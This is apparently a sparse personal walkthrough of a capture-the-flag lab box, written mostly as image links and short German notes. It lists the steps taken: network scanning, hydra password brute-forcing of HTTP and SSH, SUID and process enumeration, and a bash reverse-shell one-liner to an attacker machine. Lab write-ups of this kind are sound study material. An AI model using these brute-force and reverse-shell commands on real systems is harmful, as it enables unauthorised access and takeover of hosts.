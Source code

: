 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![](https://i.imgur.com/tHI2XTr.png)
![](https://i.imgur.com/zDYaCOo.png)
![](https://i.imgur.com/j91Why2.png)
![](https://i.imgur.com/q0VnnIQ.png)
![](https://i.imgur.com/fYH07pU.png)
![](https://i.imgur.com/PwZ7OPm.png)
![](https://i.imgur.com/swWh73v.png)
![](https://i.imgur.com/RP6nULv.png)
![](https://i.imgur.com/LXOBUyI.png)
![](https://i.imgur.com/qAzMgsR.png)
![](https://i.imgur.com/JzQxk21.png)
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![](https://i.imgur.com/te7iJGH.png)
![](https://i.imgur.com/xRTQq5n.png)
`FLAG{use_secure_credentials}`
![](https://i.imgur.com/Y5ivt2h.png)
![](https://i.imgur.com/AtXi9lB.png)
![](https://i.imgur.com/di16GFC.png)
![](https://i.imgur.com/gY0Oxyp.png)
`ls -R *`
![](https://i.imgur.com/4qrGK7s.png)
![](https://i.imgur.com/MdvNqDN.png)
![](https://i.imgur.com/2Xhqji1.png)
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![](https://i.imgur.com/0LOwRRt.png)
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![](https://i.imgur.com/nJoBuRJ.png)
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![](https://i.imgur.com/0KhHbmc.png)
![](https://i.imgur.com/UGcn08t.png)
![](https://i.imgur.com/MFNTBGs.png)
![](https://i.imgur.com/Z885wJP.png)
![](https://i.imgur.com/ziYwvHF.png)
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![](https://i.imgur.com/ne9aUCq.png)
![](https://i.imgur.com/XJU4hYR.png)
![](https://i.imgur.com/WUgbYOs.png)
suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
![](https://i.imgur.com/QgQfBOA.png)
![](https://i.imgur.com/gePh9t6.png)
![](https://i.imgur.com/08agQET.png)
![](https://i.imgur.com/I9rJQwE.png)

![](https://i.imgur.com/1YVvohV.png)
![](https://i.imgur.com/bd71EuO.png)
